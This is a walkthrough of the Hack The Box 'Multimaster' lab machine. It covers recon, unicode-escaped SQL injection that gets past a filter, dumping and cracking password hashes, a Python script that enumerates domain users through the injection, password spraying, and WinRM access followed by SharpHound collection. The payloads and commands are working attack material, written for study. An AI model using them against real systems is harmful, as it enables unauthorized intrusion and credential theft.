---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# Multimaster

## Recon

### Nmap

Let's start with a simple port-scan to see what is listening on the box (Figure 1) and then perform an agreesive (`-A`) scan on the ports found (Figure 2).




```bash
# simple port-scan
sudo nmap 10.10.10.179 -T4 -open -p- --min-rate=10000 -oA ./scans/initial_port-scan
# aggresive port-scan on the open ports
sudo nmap 10.10.10.179 -T4 -A -p $(cat ports) --min-rate=10000 -oA ./scans/aggresive_port-scan
```




```bash
# remove junk lines and rpc ports (49666+)
sudo nano scans/initial_port-scan.nmap
# extract port numbers and arrange them in a single comma-separated line
cat scans/initial_port-scan.nmap | cut -d'/' -f1 | tr '\n' ',' > ports
```



<figure><figcaption><p>Figure 1: Scanning the Multimaster machine.</p></figcaption></figure>

<figure><figcaption><p>Figure 2: Aggresive scan on the open ports.</p></figcaption></figure>

Some interesting things to note from Nmap's output:

1. There are services such as DNS, Kerberos, and LDAP that let us know that **this box is a DC**.
2. A **web server** is listening on port `80`.
3. Port `3389` is open, so **we can access the host via RDP**.
4. Port `5985` is also open, **we can jump into the box with WinRM** as well.
5. The FQDN is `MULTIMASTER.MEGACORP.LOCAL`.

Before moving enumerating the services, we should add the hostname, the domain, and the FQDN to our local DNS file:

```bash
$ grep multi /etc/hosts
10.10.10.179   multimaster megacorp.local multimaster.megacorp.local
```

We will start by enumerating the web server as it usually is the largest attack surface, and then move on to SMB and LDAP.&#x20;

### HTTP

The site seems static as nothing really works. The only interesting bit is the _Colleague Finder_ searh bar. Searching for an `a` returns everyone who has an `a` in the name (Figure 3).

<figure><figcaption><p>Figure 3: The Colleague Finder search bar.</p></figcaption></figure>

By intercepting the request with Burp, we can see that its sends a POST request to `/api/getColleagues` formatting our input as JSON (Figure 4).

<div align="center">

<figure><figcaption><p>Figure 4: The POST request with our input formatted as JSON data.</p></figcaption></figure>

</div>

Performing directory busting with [Ffuf](../../../tools/tools/web/fuff.md) results in, almost exclusively, [`403 Forbidden`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/403) responses (Figure 5), which suggests that some kind of filtering is happening either within the application itself or by a [WAF](../../../tools/tools/web/wafs.md). Introducing a 1 second delay between each request seems to still trigger the filters, so we will let our dirbusting efforts aside for now.


```bash
ffuf -u http://10.10.10.179/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -ic
```


<figure><figcaption><p>Figure 5: Dirbusting is prevented by a WAF.</p></figcaption></figure>

Scanning for [WAFs](../../../tools/tools/web/wafs.md), nothing is detected which suggests that the filtering happens within the application itself (Figure 6).

<figure><figcaption><p>Figure 6: Scanning for WAFs comes back empty-handed.</p></figcaption></figure>

## SQLi

### Manual

The only avenue to explore on the web server seems to be the _Colleague Finder_ search bar request_._ Playing around with common [SQLi](../../../tl-dr/tl-dr/web/sqli.md) detection payloads returns, again, a `403 Forbidden` response. For detecting an SQLi flaw, our initial goal is to try and induce some kind of server error which is [typically done](../../../tl-dr/tl-dr/web/sqli.md#detection) using special characters, which in our case seems to be filtered. What we could do, is fuzz the endpoint with special characters and look out what returns as `403 Forbidden` (Figure 7).&#x20;


```bash
ffuf -u http://10.10.10.179/api/getColleagues -X POST -d '{"name":"FUZZ}' -H 'Content-Type: application/json;charset=utf-8' -p 5 -t 1 -w /usr/share/wordlists/seclists/Fuzzing/special-chars.txt -c -ic -mc 403
```


<table><thead><tr><th width="152">Flag</th><th>Description</th></tr></thead><tbody><tr><td><code>-u</code>, <code>-w</code></td><td>Specify the URL and the wordlist.</td></tr><tr><td><code>-X</code>, <code>-d</code>, <code>-H</code></td><td>Specify the HTTP method, JSON data, and, following Fuff's <a href="https://github.com/ffuf/ffuf/wiki#request-body-data">documentation</a>, Content-Type header.</td></tr><tr><td><code>-c</code>, <code>-ic</code></td><td>Colorize output and ignore any comments within the wordlist file.</td></tr><tr><td><code>-p</code>, <code>-t</code></td><td>To deal with the WAF, we need to slow down the requests per second by introducing a delay among each and reducing the concurrency from 40 (default) to 1.</td></tr><tr><td><code>-mc</code></td><td>Matching only the status codes of interest.</td></tr></tbody></table>

<figure><figcaption><p>Figure 7: Adapting the Fuff command to the WAF and status code 500.</p></figcaption></figure>

The most common SQLi-detection method comes back: the `'` character. We are able to confirm this behaviour manually using Burp (Figure 8.1). If we closely inspect the request, we will notice that the `Content-Type` header includes the `charset=utf-8` string. [UTF-8](https://en.wikipedia.org/wiki/UTF-8) is an is an encoding system for Unicode, and this suggests that we might need to Unicode-escape our input in order to bypass the server filter. We can test this by escaping unicode characters using [CyberChef ](https://gchq.github.io/CyberChef/#recipe=Escape\_Unicode\_Characters\('%5C%5Cu',true,4,true\)\&input=Jw)or [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) (Figure 8.2) and see how the server responds back.

&#x20;

<figure><figcaption><p>Figure 8: Sending an ASCII (1) and a Unicode-escaped (2) payload results in different server responses.</p></figcaption></figure>

This seems to have worked! We have some information already about the database:

1. It is a Windows box, so the DBMS is probably MSSQL.
2. When we sent the `a` character, we got back 5 fields: `id`, `name`, `position`, `email`, and `src`. This means that this particular table has at least 5 columns.
3. All fields but `id` accept strings, thus, we can use any of them to exfiltrate data.

We can start enumerating the database by sending a payload to confirm the number of columns. If we send a query inlcuding 5 columns it comes back with data (Figure 9.1), whereas if we include 6 columns it results in an index error and comes back `null` (Figure 9.2).

```sql
a' UNION SELECT 1,2,3,4,5-- -
```

<figure><figcaption><p>Figure 9: Selecting 5 columns works (1), but adding more results in a NULL response (2).</p></figcaption></figure>

We can now start performing proper enumeration and find out:

1. What database(s) exist within the DBMS.
   * There is only 1 non-default database: `Hub_DB` (Figure 10.1).
2. What tables exist in the database of interest.
   * There are 2 tables: `Colleagues` and `Logins` (Figure 10.2).
3. What columns exists within the table of interest.
   * There are 3 columns on the `Login` table: `id`, `password`, and `username` (Figure 10.3).
4. What data is available with the table.
   * There are 17 users within the `Login` table (Figure 10.4).



```sql
a' UNION ALL SELECT 1,name,3,4,5 from master..sysdatabases-- -
```




```sql
a' UNION ALL SELECT 1,name,3,4,5 FROM Hub_DB..sysobjects WHERE xtype = 'U'-- -
```





```sql
a' UNION ALL SELECT 1,name,3,4,5 FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Logins')-- -
```




```sql
a' UNION ALL SELECT id,username,password,4,5 FROM Hub_DB..Logins-- -
```



<figure><figcaption><p>Figure 10: Enumerating databases (1), tables (2), columns (3), and dumping data (4).</p></figcaption></figure>

### Automated

We could also automate the process above by capturing the HTTP request from Burp to a file (Figure 11) and feeding it to [SQLMap](../../../tools/tools/web/sqlmap.md) (Figure 12). Notice, that we put an `*` symbol where we want SQLMap to inject the payload (the value of the `name` parameter) prior copying the request to a file.

<div align="center" data-full-width="true">

<figure><figcaption><p>Figure 11: Writing the HTTP request to a file.</p></figcaption></figure>

</div>


```bash
sqlmap -r getcolleagues.req --batch -v 1 --level=5 --risk=3 --delay=3 --tamper=charunicodeescape --dbms=mssql --os=Windows --technique=U --proxy=http://127.0.0.1:8080
```


<table><thead><tr><th width="341">Flag</th><th>Description</th></tr></thead><tbody><tr><td><code>-r</code>, <code>--batch</code>, <code>-v</code></td><td>Pass request file, choose the defaults in every prompt, set verbosity levels.</td></tr><tr><td><code>--level</code>, <code>--risk</code></td><td>Level and risks of test to perform.</td></tr><tr><td><code>--delay</code></td><td>Introduce a delay between each request to avoid getting blocked by the filter.</td></tr><tr><td><code>--tamper=charunicodeescape</code></td><td>Unicode-escape non-encoded payload characters.</td></tr><tr><td><code>--dbms</code>, <code>--os</code></td><td>Specify what we already know, the DBMS type and the operating system.</td></tr><tr><td><code>--technique</code></td><td>By default, SQLMap tests for everything which can take a lot of time. Since <code>UNION</code> is the most common SQLi, we can start with that.</td></tr><tr><td><code>--proxy</code></td><td>Send each request via proxy, so we can see what's happening in each request.</td></tr></tbody></table>

<figure><figcaption><p>Figure 12: SQLMap identidied the number of columns, the vulnerable parameter, and provided us with a (not unicode-escaped) payload.</p></figcaption></figure>

We can now do the same process we did manually by enumerating:

1. &#x20;Current database's name (Figure 13.1)
2. Tables (Figure 13.2)
3. Columns (Figure 13.3)
4. Dump data (Figure 13.4)&#x20;




```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape
```





```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape -D Hub_DB --tables
```





```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape -D Hub_DB -T Logins --columns
```





```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape -D Hub_DB -T Logins --dump
```




<figure><figcaption><p>Figure 13: Using SQLMap for enumerating the current database's name (1), its tables (2), the table's columns (3), and, finally, dumping the table's data.</p></figcaption></figure>

## Hash Cracking

SQLMap output the table data in a handy CSV file which we can manipulate and pass it to hashcat. By doing that we end up with 17 usernames and 4 hashes. Passing those hashes to **hashcat's auto-detect mode**, comes back with 4 suggestions (Figure 14).



```bash
cat Logins.csv | cut -d',' -f2 | sort | uniq > hashes
```



```bash
cat Logins.csv | cut -d',' -f3 | sort | uniq > usernames
```



```bash
nano hashes
nano usernames
```



<figure><figcaption><p>Figure 14: Hashcat's auto-detect mode let's us know the possible hash types.</p></figcaption></figure>

The `Keccak-384` mode works and cracks 3/4 of them.


```bash
$ hashcat -m 17900 hashes --show
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
```


With a username list and 3 cleartext password back, we can try a **password-spray attack** usign SMB, WinRM, or RDP, but, unfortunately, noone of those work.



<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>hashcat -m 17900 hashes --show | cut -d":" -f2 > clear_passwords
</strong></code></pre>




```bash
nxc smb 10.10.10.179 < smb | winrm | rdp > -u usernames -p clear_passwords | grep +
```




## Hacking MSSQL

Not much avenues to go from here, so we need some help. Apparently there is a way to **enumerate domain accounts via an SQLi attack**. Reading [0xdf's walkthough](https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html), which takes information from [this](https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/) article, we can see how this can be done.

When SQLMap detected the SQLi, it gaves up a payload which warned us that is not unicode-escaped (Figure 12). So the first step, is to take this payload and use [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) (Figure 15) or [CyberChef](https://gchq.github.io/CyberChef/#recipe=Escape\_Unicode\_Characters\('%5C%5Cu',false,4,true\)) to do that ourselves.


```bash
# SQLMap's payload
{"name":"test' UNION ALL SELECT 66,66,66,CHAR(113)+CHAR(120)+CHAR(106)+CHAR(120)+CHAR(113)+CHAR(80)+CHAR(101)+CHAR(67)+CHAR(110)+CHAR(101)+CHAR(88)+CHAR(85)+CHAR(84)+CHAR(108)+CHAR(86)+CHAR(80)+CHAR(66)+CHAR(97)+CHAR(69)+CHAR(71)+CHAR(88)+CHAR(65)+CHAR(83)+CHAR(73)+CHAR(114)+CHAR(67)+CHAR(85)+CHAR(79)+CHAR(119)+CHAR(117)+CHAR(120)+CHAR(122)+CHAR(103)+CHAR(114)+CHAR(122)+CHAR(82)+CHAR(97)+CHAR(79)+CHAR(104)+CHAR(102)+CHAR(113)+CHAR(103)+CHAR(117)+CHAR(119)+CHAR(99)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(112)+CHAR(113),66-- lysJ"}
```


<figure><figcaption><p>Figure 15: Using HackVertor to unicode-escape our payload.</p></figcaption></figure>

Now we need to:

1. Get the domain name using `SELECT DEFAULT_DOMAIN()` (Figure 16.1).
2. Get the domain RID using `SUSER_SID()` on a known group, such as `Domain Admins` (Figure 16.2).
3. Build a user RID and check it using `SUSER_SNAME()` (Figure 16.3).



```sql
test' UNION ALL SELECT 66,66,66,DEFAULT_DOMAIN(),66-- lysJ
```




```sql
test' UNION ALL SELECT 66,66,66,master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Domain Admins')),66-- lysJ
```





```sql
test' UNION ALL SELECT 66,66,66,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000),66-- lysJ
```




Since the RID is `0x0105000000000005150000001c00d1bcd181f1492bdfc23600020000`, we can extract the domain RID: `0x0105000000000005150000001c00d1bcd181f1492bdfc236`. We know that the [`Administrators` RID is `500`](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-default-user-accounts#administrator-account-attributes) and we can make this RID by:

1. Taking this value (`500`)
2. Converting to hex (`0x1f4`)
3. Padding it to 4 bytes (`0x000001f4`)
4. And reversing the byte order (`0xf4010000`)

As a result, the `Administrator` RID should be `0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000`. We can confirm this using `SUSER_NAME`.

<figure><figcaption><p>Figure 16: Enumerating the domain name (1), the Domain Admins RID (2), and confirming the Administrator's RID (3).</p></figcaption></figure>

We can now use [0xdf](https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html) Python3 script to brute force the domain users:

```python
#!/usr/bin/env python3

import binascii
import requests
import struct
import sys
import time


payload_template = """test' UNION ALL SELECT 58,58,58,{},58-- -"""


def unicode_escape(s):
    return "".join([r"\u{:04x}".format(ord(c)) for c in s])


def issue_query(sql):
    while True:
        resp = requests.post(
            "http://10.10.10.179/api/getColleagues",
            data='{"name":"' + unicode_escape(payload_template.format(sql)) + '"}',
            headers={"Content-type": "text/json; charset=utf-8"},
            proxies={"http": "http://127.0.0.1:8080"},
        )
        if resp.status_code != 403:
            break
        sys.stdout.write("\r[-] Triggered WAF. Sleeping for 30 seconds")
        time.sleep(30)
    return resp.json()[0]["email"]


print("[*] Finding domain")
domain = issue_query("DEFAULT_DOMAIN()")
print(f"[+] Found domain: {domain}")

print("[*] Finding Domain SID")
sid = issue_query(f"master.dbo.fn_varbintohexstr(SUSER_SID('{domain}\Domain Admins'))")[:-8]
print(f"[+] Found SID for {domain} domain: {sid}")

for i in range(500, 10500):
    sys.stdout.write(f"\r[*] Checking SID {i}" + " " * 50)
    num = binascii.hexlify(struct.pack("<I", i)).decode()
    acct = issue_query(f"SUSER_SNAME({sid}{num})")
    if acct:
        print(f"\r[+] Found account [{i:05d}]  {acct}" + " " * 30)
    time.sleep(1)

print("\r" + " " * 50)
```

After running the script, among other things, we get a lot of new users back. After cleaning this list, we can try again a password-spray and, luckily, this time we get a hit back (Figure 17).



```bash
# execute the script
./brute_force_sids.py
# copy and paste the results to a file
nano script_users
# extract usernames
cat script_users | cut -d"\\" -f2 > sid_users
# manually remove junk lines
nano sid_users
```




```bash
# password spray
nxc smb 10.10.10.179 -u sid_users -p clear_passwords | grep +
# write password to a file
echo "finance1" > tushi_pass
# check winrm access
nxc winrm 10.10.10.179 -u tushikikatomo -p tushi_pass
```




<figure><figcaption><p>Figure 17: Password spraying reveals credentials for a new user.</p></figcaption></figure>

## Domain Enumeration

Let's log into the box using WinRM and grab `user.txt` flag 🚩 before anything else. Now, we got our foothold, we can collect domain information to analyze using SharpHound (Figure 18).



```bash
evil-winrm -i 10.10.10.179 -u tushikikatomo -p $(cat tushi_pass)
```



```powershell
type ..\desktop\user.txt
```



```powershell
# upload the executable to the target
upload SharpHound/SharpHound.exe
# run SharpHound
.\SharpHound.exe -c all
# list output file's name
dir
# download zip file to the attack host
download 20240331171236_BloodHound.zip
```



